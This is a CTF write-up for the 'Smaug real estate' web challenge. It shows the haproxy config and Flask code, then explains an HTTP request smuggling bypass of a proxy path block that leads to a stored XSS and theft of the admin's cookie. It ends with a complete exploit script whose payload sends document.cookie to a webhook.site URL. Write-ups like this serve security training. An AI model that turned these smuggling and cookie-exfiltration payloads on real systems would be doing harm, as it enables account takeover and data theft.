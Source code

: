# TeamItaly Preselection CTF 2024

## [web] Smaug real estate (10 solves)

Here at Smaug real estate you can find the perfect property that fit your needings... if you're wealthy enough. A brilliant team of security engineers reviewed our website and they found nothing, so there's nothing we have to worry about.

Site: [http://smaug.challs.external.open.ecsc2024.it:38317](http://smaug.challs.external.open.ecsc2024.it:38317)

Author: Simone Cimarelli <@AquilaIrreale>
Author: Vittorio Mignini <@M1gnus>

## Overview

The system exposes an instance of haproxy configured as following:

```haproxy
global
  log stdout format raw local0

defaults
    mode http

    timeout connect 30s
    timeout client  30s
    timeout server  30s
    
    option httplog
    log global

frontend http-incoming
    bind *:80
    http-request set-path /api/v1/forbidden if { path_beg /api/v1/proposals }
    use_backend backend if { path_beg /api/v1 }
    default_backend frontend

backend backend
    http-request replace-path /api/v1(/)?(.*) /\2
    server backend backend:80 pool-purge-delay 30s
    http-reuse always

backend frontend
    server frontend frontend:3000 pool-purge-delay 30s
    http-reuse always

```

Basically there is two services, a frontend and a backend. The endpoints under /api/v1/proposal are protected from external access:

```py
@app.get("/proposals")
def get_proposals():
    return proposals


@app.get("/proposals/<string:uuid>")
def get_proposal(uuid):
    try:
        uuid = UUID(uuid, version=4)
    except ValueError:
        return "Not found", 404

    try:
        proposal = proposals[str(uuid)]
        return dedent(f"""
        <html>
            <head>
                <title>{proposal["name"]}</title>
            </head>
            <body>
                TODO: implement proposal description page
            </body>
        </html>
        """)
    except KeyError:
        return "Not found", 404


@app.post("/proposals")
def post_proposal():
    try:
        body = request.json
        uuid = UUID(body["uuid"], version=4) 
        name = body["name"]
        price = int(body["price"])
        description = body["description"]
        seller = body["seller"]
        exp = datetime.now() + timedelta(minutes=10)
    except Exception as e:
        return "Unprocessable entity", 422

    proposals[str(uuid)] = {
        "name": name,
        "price": price,
        "description": description,
        "seller": seller,
        "exp": exp,
    }

    return "Created", 201
```

## Solution

if a user manage to use the endpoint `POST /proposal`, he can inject a proposal into the system. The parameter `name` is reflected in an insecure way if someone visits `GET /proposal/<uuid>`, potentialli causing an XSS.

The flag is stored in a cookie of admin's browser, as stated by the following backend code:

```py
@app.post("/")
def admin_login():
    secret = request.json["secret"]
    resp = make_response("")
    if secret == HEADLESS_AUTH:
        resp.set_cookie(
            "FLAG",
            FLAG,
            secure=False,
            httponly=False)
    return resp
```

and if a user manage to inject a malicious proposal, he can notify an admin about the proposal using the opportune functionality of frontend, causing the XSS to be triggered and can be used to exfiltrate the flag with a trivial webhook like `ngrok` or `webhook.site`:

![notification](writeup/notification.png)

![flag](writeup/flag.png)

## Exploit

```py
import socket
import requests
from hashlib import sha256

WEBHOOK_URL = "https://webhook.site/678c785f-d79e-4ff7-a8d1-4ee25f12a717"
CTF_HOST = "localhost"
CTF_PORT = 80

FIRST_REQUEST = (
    "GET /api/v1/ HTTP/1.1\r\n" +
    "Host: localhost\r\n" +
    "Content-Length: {}\r\n" +
    "Sec-Websocket-Key1: x\r\n" +
    "\r\n" +
    "xxxxxxxx"
)
SECOND_REQUEST_BODY = f'{{"uuid": "453aaf90-0775-414f-a104-90cf543c96db", "name": "xss</title></head><body><script>fetch(`{WEBHOOK_URL}?${{document.cookie}}`, {{\\"mode\\": \\"no-cors\\"}})</script></body><!--", "price": "40", "description": "a", "seller": "a"}}'
SECOND_REQUEST = (
    "POST /proposals HTTP/1.1\r\n" +
    "Host: localhost\r\n" +
    "Content-Type: application/json\r\n" +
    f"Content-Length: {len(SECOND_REQUEST_BODY)}\r\n" +
    "\r\n" +
    SECOND_REQUEST_BODY +
    "\r\n\r\n"
)

content_length = 8 + len(SECOND_REQUEST)
SMUGGLED_REQUEST = FIRST_REQUEST.format(content_length) + SECOND_REQUEST

print(f"payload length: {content_length}\n{SMUGGLED_REQUEST.encode()}")

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.setblocking(True)
sock.connect((CTF_HOST, CTF_PORT))
sock.send(SMUGGLED_REQUEST.encode())
sock.recv(1024)
sock.close()

requests.get(f"http://{CTF_HOST}:{CTF_PORT}/api/v1/")
pow = requests.get(f"http://{CTF_HOST}:{CTF_PORT}/api/v1/pow").json()
sol = ""
i = 1
while sha256(sol.encode()).hexdigest()[-5:] != pow["pow"]:
    sol = str(i)
    i += 1
requests.post(f"http://{CTF_HOST}:{CTF_PORT}/api/v1/notify", json={"proposal_uuid": "453aaf90-0775-414f-a104-90cf543c96db", "pow_uuid": pow["uuid"], "pow_solution": sol})
```
